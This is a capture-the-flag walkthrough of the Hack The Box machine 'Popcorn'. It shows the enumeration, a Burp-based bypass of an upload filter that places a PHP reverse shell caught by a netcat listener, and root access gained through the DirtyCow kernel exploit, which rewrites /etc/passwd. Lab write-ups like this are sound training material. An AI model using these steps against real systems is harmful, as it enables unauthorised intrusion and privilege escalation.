 Target: 10.10.10.6

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.6

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-02 23:38 PDT
Nmap scan report for 10.10.10.6
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.10.6/FUZZ

index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
test                    [Status: 200, Size: 47130, Words: 2474, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

checking 10.10.10.6

![index](popcorn1.png)

checking /test

![/test](popcorn2.png)

checking /torrent

![/torrent](popcorn3.png)

registering an account

![register](popcorn4.png)

testing upload

![upload](popcorn5.png)


### Findings:Looking for attack vectors

Bypass upload denylisting using Burpsuite to upload a php reverse shell.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

upload success -> editting this torrent

![upload success](popcorn6.png)

intercepting in burp (upload php file)

![burp-php](popcorn7.png)

intercepting in burp (upload jpeg file)

![burp-jpeg](popcorn8.png)

spoofing in burp (send to repeater) (add jpeg in filename, change mime-type, add jpeg magic bytes before php script)

![repeater](popcorn9.png)

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file by clicking the 'Image File Not Found'

```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

upgrading shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@popcorn:/$ cd /home

www-data@popcorn:/home$ ls -la

total 12
drwxr-xr-x  3 root   root   4096 Mar 17  2017 .
drwxr-xr-x 21 root   root   4096 Jun  3 08:38 ..
drwxr-xr-x  3 george george 4096 Oct 26  2020 george

www-data@popcorn:/home$ cd george

www-data@popcorn:/home/george$ ls -la

total 868
drwxr-xr-x 3 george george   4096 Oct 26  2020 .
drwxr-xr-x 3 root   root     4096 Mar 17  2017 ..
lrwxrwxrwx 1 george george      9 Oct 26  2020 .bash_history -> /dev/null
-rw-r--r-- 1 george george    220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 george george   3180 Mar 17  2017 .bashrc
drwxr-xr-x 2 george george   4096 Mar 17  2017 .cache
-rw------- 1 root   root     1571 Mar 17  2017 .mysql_history
-rw------- 1 root   root       19 May  5  2017 .nano_history
-rw-r--r-- 1 george george    675 Mar 17  2017 .profile
-rw-r--r-- 1 george george      0 Mar 17  2017 .sudo_as_admin_successful
-rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
-rw-r--r-- 1 george george     33 Jun  3 08:38 user.txt

www-data@popcorn:/home/george$ cd .cache

www-data@popcorn:/home/george/.cache$ ls

motd.legal-displayed
```

```
cat user.txt

<redacted>
```

## Priv Escalations:

enumerating with linpeas
```
════════════════════════════════════╣ System Information ╠════════════════════════════════════
[+] Operative system                                                                                               
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                    
Linux version 2.6.31-14-generic-pae (buildd@rothera) (gcc version 4.4.1 (Ubuntu 4.4.1-4ubuntu8) ) #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009  
```

exploiting outdated linux version using dirtycow
```
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt

www-data@popcorn:/dev/shm$ ./dirty.c

/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b78a1000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

```
www-data@popcorn:/dev/shm$ su - firefart

firefart@popcorn:/dev/shm# id

uid=0(firefart) gid=0(root) groups=0(root)
```

```
firefart@popcorn:/dev/shm# cat /root/root.txt

<redacted>
```
